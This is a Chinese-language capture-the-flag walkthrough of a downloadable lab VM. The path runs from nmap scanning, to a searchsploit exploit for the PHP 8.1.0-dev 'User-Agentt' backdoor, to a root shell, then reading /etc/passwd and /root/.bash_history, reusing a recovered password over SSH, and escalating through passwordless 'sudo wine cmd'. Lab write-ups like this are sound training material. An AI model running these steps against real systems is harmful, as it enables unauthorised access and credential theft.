

## 靶机地址

[Proton Drive](https://drive.proton.me/urls/027V63ZCQR#iT7At4N7gM0b)


## 信息收集

### nmap扫描

#### 准备阶段

```
mkdir nmapscan
```


#### 主机探测

```
nmap -sn 192.168.23.0/24
```


确定靶机ip：

192.168.23.142


#### 端口扫描

```
nmap -p- --min-rate 10000 -sT 192.168.23.142 -oA ./nmapscan/ports
```


#### 提取端口信息

```
ports
```


#### 详细结果扫描

```
nmap -sT -sC -sV -O -p 22,80,8080 192.168.23.142 -oA ./nmapscan/detail
```


分析：

- 22 ssh OpenSSH 8.4p1
- 80 http Apache httpd 2.4.56
- 8080 http PHP 8.1.0-dev
- PHP 8.1.0-dev存在"User-Agentt"远程执行漏洞


### 搜索相关漏洞

```
searchsploit php 8.1.0-dev
searchsploit -m php/webapps/49933.py
```


### 执行

```
python3 49933.py
http://192.168.23.142:8080/
whoami
```


已经是root权限的shell


### 查看用户信息

```
cat /etc/passwd
```


无可用用户，推测是在docker容器中


### 寻找可用信息

```
ls -al /root/
cat /root/.bash_history
```


得到一个用户名和密码

```
liam：L14mD0ck3Rp0w4
```


### ssh登录

```
ssh liam@192.168.23.142
```


登录成功


## 提权

### 得到第一个flag

```
ls
cat user.txt
```


### 执行sudo -l

```
sudo -l
```



无密码执行wine

wine允许在linux上运行一些windows应用

- 这里我本来想的是msfvenom生成windows远控木马，然后实现提权，但是后来发现不用，直接执行cmd就可以得到root权限的shell


### wine提权

```
sudo wine cmd
```


### 得到第二

### 个flag

```
dir
type user.txt
```

